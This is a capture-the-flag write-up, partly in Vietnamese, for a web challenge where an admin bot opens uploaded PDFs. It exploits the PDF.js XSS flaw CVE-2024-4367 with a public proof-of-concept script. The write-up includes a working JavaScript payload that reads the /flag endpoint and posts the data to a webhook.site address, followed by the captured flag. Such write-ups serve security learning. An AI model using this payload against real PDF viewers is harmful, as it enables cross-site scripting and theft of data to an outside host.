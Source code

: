 ```
});

app.post("/report", limit, async (req, res) => {
    const { url } = req.body;
    if (!url) {
        return res.status(400).send({ error: "Url is missing." });
    }
    if (!RegExp(bot.urlRegex).test(url)) {
        return res.status(422).send({ error: "URL din't match this regex format " + bot.urlRegex })
    }
    if (await bot.bot(url)) {
        return res.send({ success: "Admin successfully visited the URL." });
    } else {
        return res.status(500).send({ error: "Admin failed to visit the URL." });
    }
});

app.get('/flag', (req, res) => {
  let ip = req.connection.remoteAddress;
  if (ip === '127.0.0.1') {
    res.json({ flag: 'AKASEC{FAKE_FLAG}' });
  } else {
    res.status(403).json({ error: 'Access denied' });
  }
});

app.listen(5000, '0.0.0.0', () => console.log('Server started on port 5000'));

```
+ nhìn qua thì cũng là dạng lưu content mã độc  từ phía server sau khi upload và gửi từ bot admin tại local của file đó vì "ip == '127.0.0.' là sẽ phải gửi đến địa chỉ local qua 1 report là bot admin 

 => sau khi search thì đây là lỗ hổng pdf injection trên xss  'CVE-2024-4367' 

- ta sẽ test trến script có sẵn từ nguồn github https://github.com/LOURC0D3/CVE-2024-4367-PoC.git

``` python3 CVE-2024-4367 'alert(1)'```

=> generate ra file pdf file chứa xss 

![image](https://github.com/j10nelop/m3d1r/assets/152776722/9a9f9bcc-9345-4add-8f47-3b12ed9971c3)

=> nó trả về thông tin alert từ hệ thống 

=> ta cần generate ra 1 payload có thể nhận được respond từ địa chỉ đích và hook content của nó qua webhook 

=> payload

```
fetch\('/flag'\).then\(response => { return response.json\(\); }\).then\(data => { fetch\('https://webhook.site/13599e56-a383-436d-8504-d3d87c24a8bb', {method: 'POST',mode: 'no-cors',body: JSON.stringify\(data\)}\) })
```

![image](https://github.com/j10nelop/m3d1r/assets/152776722/d88295a7-c261-475d-9ad4-81e35717ab45)

=> send link http://127.0.0.1:5000/view/file-1718153210636.pdf

qua bot lên server fetch flag của địa chỉ đó

![image](https://github.com/j10nelop/m3d1r/assets/152776722/8ab5a75f-fc57-4643-b476-43a83d7a5ef7)

=> flag:AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
